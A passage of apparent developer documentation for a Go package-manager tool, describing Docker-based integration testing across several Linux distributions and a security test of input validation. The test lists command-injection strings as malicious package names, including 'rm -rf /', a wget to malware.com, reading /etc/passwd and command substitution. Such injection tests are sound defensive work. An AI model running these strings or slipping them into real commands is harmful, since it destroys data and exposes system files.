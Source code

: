 ## Docker Testing Strategy

### Why Docker for Integration Tests

1. **Safety**: Never modify the development system
2. **Reproducibility**: Consistent environments across machines
3. **Cross-Platform**: Test on Ubuntu, Rocky, Fedora, Alpine
4. **Isolation**: Each test runs in clean environment

### Docker Test Configuration

#### OS Matrix Testing (`testing/os-matrix.yaml`)

```yaml
environments:
  ubuntu-2204:
    package_managers: [apt, snap, flatpak]
    docker_image: "ubuntu:22.04"
  rocky-8:
    package_managers: [yum]
    docker_image: "rockylinux:8"
  fedora-39:
    package_managers: [dnf, flatpak]
    docker_image: "fedora:39"
```

#### Test Entrypoints

- `testing/entrypoints/entrypoint-apt.sh` - APT fixture generation
- `testing/entrypoints/entrypoint-yum.sh` - YUM fixture generation
- `testing/entrypoints/entrypoint-dnf.sh` - DNF fixture generation

### Fixture Generation

```bash
# Generate fixtures safely in Docker
cd testing
./generate-fixtures.sh

# Generates authentic outputs like:
# apt search vim > fixtures/apt/search-vim.clean-system.ubuntu-2204.txt
# yum list installed > fixtures/yum/list-installed.clean-system.rocky-8.txt
```

## Security Testing

### Input Validation Tests

Every package manager must implement comprehensive security validation:

```go
func TestInputValidation(t *testing.T) {
    mgr := NewManager()
    ctx := context.Background()

    // Test command injection patterns
    maliciousPackages := []string{
        "package; rm -rf /",           // Command chaining
        "package && wget malware.com", // Command chaining with &&
        "package | cat /etc/passwd",   // Pipe redirection
        "package`id`",                 // Command substitution
        "package$(whoami)",            // Command substitution
        "../../../etc/passwd",         // Path traversal
    }

```